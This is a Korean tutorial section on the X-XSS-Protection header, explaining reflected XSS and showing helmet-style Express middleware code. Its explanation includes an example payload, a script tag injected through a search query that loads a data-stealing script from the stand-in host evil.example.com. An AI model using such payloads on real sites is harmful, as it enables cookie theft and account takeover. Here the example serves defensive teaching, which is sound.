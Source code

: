 ### 3.12 XSS Filter

`X-XSS-Protection` 헤더를 설정하여 XSS 공격을 방지합니다.

#### 3.12.1 공격

Cross-site scripting(XSS)는 공격자가 웹 페이지를 탈취할 수 있는 방법입니다. 이 공격의 목적은 희생되는 브라우저의 Javascript의 제어를 가져오는 것 입니다. 헤커가 이를 성공하면, 당신의 행동을 기록하거나, 당신으로 위장하거나, 인증 쿠키들을 훔치는등 수 많은 나쁜 일일 할 수 있습니다.
`Refelcted XSS`는 XSS 공격중 하나입니다. 일반적으로, HTML에 직접 입력하는 쿼리 문자열에 Javascript를 넣어 작동합니다. 삽입된 Javascript는 공격자가 누군가에게 악의적인 쿼리 문자열을 제공하여 그들의 Javascript를 실행할 수 있게 해줍니다.
예를 들어, Goobar라는 검색 엔진을 가동중이라고 합시다. 검색할때마다 결과 위에 검색어가 표시됩니다. "javscript jokes"를 검색했다고 합시다. 검색하면 전체 URL은 다음과 같다.

```
https://goober.example.com/search?query=javascript+jokes
```

만약 `<script src="http://evil.example.com/steal-data.js"></script>`라고 검색하면 전체 URL은 다음과 같다.

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

#### 3.12.2 헤더

이 헤더는 모든 XSS 공격을 막아주지는 않습니다. 몇몇 종류만을 막아주며, 다른 완화 조치들이 훨씬 좋습니다. 단순 Reflected XSS 공격을 브라우저가 감지하는 것은 비교적 간단합니다. 위의 예에서, 브라우저는 쿼리 문자열과 동일한 경우 `<sciprt>`안의 ㅓavascript를 싱행시키지 않도록 선택할 수 있습니다. 어떤 브라우저는 기본적으로 이를 감지하지만, 그렇지 않은 브라우저도 있습니다. 이러한 브라우저가 이 단순한 케이스를 확인하도록 하려면 `X-XSS-Protection` 헤더를 `1; mode=block`로 설정해야 합니다.

이 헤더는 오래된 버전의 Internet Explorer에서는 후러씬 심각한 보안 취약성을 유발하기에, 여기서는 사용하지 않는 것이 현명합니다.

#### 3.12.3 코드

```javascript
const xssFilter = require("x-xss-protection");

app.use(xssFilter());
```

모든 버전의 IE에서 사용을 강제하고 싶을때는 다음과 같이 합니다.

```javascript
app.use(xssFilter({ setOnOldIE: true }));
```

크롬 베이스 브라우저에서는, Report URI를 설정할 수도 있습니다.

```javascript
app.use(xssFilter({ reportUri: "/report-xss-violation" }));
```

`mode`를 `null`로 설정할 수도 있습니다.

```javascript
app.use(xssFilter({ mode: null }));
```

## 4. 출처

- [helmet](https://helmetjs.github.io/)
